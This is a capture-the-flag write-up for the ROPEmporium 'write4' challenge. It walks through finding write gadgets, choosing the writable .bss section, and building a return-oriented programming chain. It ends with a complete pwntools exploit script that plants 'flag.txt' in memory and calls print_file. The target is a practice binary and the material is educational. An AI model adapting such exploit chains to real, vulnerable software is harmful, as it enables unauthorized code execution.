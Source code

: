 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: write4"
excerpt: "'write4' focuses on using gadgets to write user-controlled data to a binary in order to run arbitrary commands."
category: "pwn"
---
```

## Preface
'write4' focuses on using gadgets to write user-controlled data to a binary in order to run arbitrary commands.

Challenges can be found [here](https://ropemporium.com/).
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/write4/initialrun.png)

Note that the buffer overflow still exists (offset is the same), allowing us to overwrite the return address. However, this time around our objective is the following:

>On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is **not present** this time. Once you've figured out how to write your string into memory and where to write it, go ahead and **call print_file() with its location** as its only argument.

We are told that there exists a PLT entry for the `print_file()` function. Note that we must utilize the PLT entry because the function is dynamically loaded at runtime.

Our checksec remains the same.

![Checksec]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/write4/checksec.png)
### Decompilation
This time around, not much in the binary has changed. The only change is `usefulFunction()`, which now contains a call to `print_file()`:

```c
void usefulFunction(void)
{
  print_file("nonexistent");
  return;
}
```

This function call doesn't have any use to us without having the acutal `"flag.txt"` string to use as a parameter. So, how do we manipulate the binary to get this string?
### More Gadgets
Up until now, we have solely used gadgets that pop values. 

These are great for allowing us to fill registers with data of our choice, but has little use if the data can't be found in the binary.

However, there are gadgets that allow us to write to sections of the binary as well.
In assembly, instructions such as `mov [reg1], reg2` allow us to write the value `reg` to the memory located at address `reg`. Square brackets signify a dereference operation in assembly, which takes the value inside it  and interprets it literally, writing or reading to that memory address. You can read more about it [here](https://stackoverflow.com/questions/48608423/what-do-square-brackets-mean-in-x86-assembly).

Let's try searching for one of these gadgets in our binary. We can search for all `mov` operations and see if any of them write directly to memory:

![Dereference Gadget]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/write4/dereference.png)

Though some of these other gadgets might work, one of them stands out. We can use this gadget to write a QWORD (8 bytes), which is perfect for us. Our string `"flag.txt"` is exactly 8 bytes, so this gadget allows us to write it to memory in one operation.

Now that we can write to an arbitrary place in memory, where would a suitable place be?
### Dissecting a Binary File
ELF files in Linux are comprised of numerous different segments, each of which can contain multiple segments. Some important sections include `.text, .data, .rodata, .bss`. 

![Diagram]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/write4/diagram.png)

I won't go into an in-depth explanation about each of these sections, but at a high level: `.text` stores your actual program code, `.data` stores initialized data, `.rodata` stores initialized read-only data, and `.bss` stores uninitialized data.

For a far more in depth explanation, see [here](https://intezer.com/blog/research/executable-linkable-format-101-part1-sections-segments/).

For our purposes, we need to know the read-write permissions of each section to rule out which ones we can and can't store data in.

We can use `rabin2` for this:

![Diagram]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/write4/rabin.png)

There are multiple different sections but we are only concerned with the readable and writable sections. In this case, either `.data` or `.bss` would work because we are overwriting non-essential data that is also readable. I'll use `.bss` in this writeup.
### Finding Addresses and Gadgets
We now have an indication of what our chain is going to look like. We want to write our string `"flag.txt"` to a section (`.bss`), then pop it into a register to call `print_file()` with. This would essentially be the same as making the program call `print_file("flag.txt")`, just without the string present in the binary itself.

With that in mind, let's try finding the gadgets we need to build this chain.

We need a gadget that pops both R14 and R15, since these are the registers that our previous MOV gadget uses. Recall that the MOV gadget is the following:
```nasm
mov qword ptr [r14], r15, ret
```
Using ROPgadget, we can easily find a corresponding gadget at `0x400690`.

Finally, we need a gadget to pop RDI, the first register in x64 calling convention. ROPgadget gives us the address `0x400693`. 

With this, we can build our ROP chain!
### Building ROP Chain
A quick recap:
We need to first populate our R14 and R15 registers with the values that we want, which is the address of our `.bss` section and the string `"flag.txt"` respectively. This populates our registers for our next gadget, which actually writes `"flag.txt"` using the MOV dereference. Finally, we call our gadget that populates RDI by popping off the value at `.bss` which we just wrote, and we successfully call `print_file()` at the end.
```
POP_R14_R15 (.bss, "flag.txt") -> 
MOV_R14_R15 -> 
POP_RDI (.bss) -> 
print_file()
```
### Final Script
```python
from pwn import *

p = process('./write4')

RET = 0x00000000004004e6
POP_R14_R15 = 0x0000000000400690
# mov qword ptr [r14], r15, ret
MOV_R14_R15 = 0x0000000000400628
BSS_SEGMENT = 0x601038
POP_RDI = 0x0000000000400693
PRINT_FILE = 0x0000000000400510

payload = b'A' * 40
payload += p64(RET) # for stack alignment
payload += p64(POP_R14_R15) + p64(BSS_SEGMENT) + b'flag.txt'
payload += p64(MOV_R14_R15)
payload += p64(POP_RDI) + p64(BSS_SEGMENT)
payload += p64(PRINT_FILE)

p.sendline(payload)

p.interactive()
```